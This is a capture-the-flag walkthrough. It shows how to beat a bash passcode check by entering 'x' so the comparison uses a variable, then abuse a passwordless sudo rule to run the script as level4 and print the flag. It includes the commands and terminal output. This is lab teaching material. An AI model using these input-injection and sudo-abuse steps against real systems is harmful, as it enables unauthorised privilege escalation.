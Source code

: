 * Exploit read command and variable substitution by entering x for input so that $input becomes $x.
```
$ /home/level3/passcodes.sh
Input the random number.
x
AWESOME sauce
cat: flag.txt: Permission denied
```
* ls -la
```
total 32
dr-xr-x--x 1 level3 level3 4096 Apr  3 16:00 .
drwxr-xr-x 1 root   root   4096 Apr  3 15:35 ..
-rw-r--r-- 1 level3 level3  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 level3 level3 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 level3 level3  807 Apr  4  2018 .profile
-r--r----- 1 level4 level4   30 Apr  1 21:25 flag.txt
-r-xr-x--- 1 level4 level3  179 Apr  1 21:25 passcodes.sh

```
* sudo -l
```
Matching Defaults entries for level3 on da012872fddc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User level3 may run the following commands on da012872fddc:
    (level4) NOPASSWD: /home/level3/passcodes.sh
```
* So the script `/home/level3/passcodes.sh` can be run as user - `level4` without a password
* Clearly understand what `sudo` means `Substitute User DO`
* So substitute user `level4` in place `level3` and run the script, you will get the flag
* Run `sudo -u level4 /home/level3/passcodes.sh`
```
Input the random number.
x
AWESOME sauce
auctf{wut_r_d33z_RaNdom_numz}
```

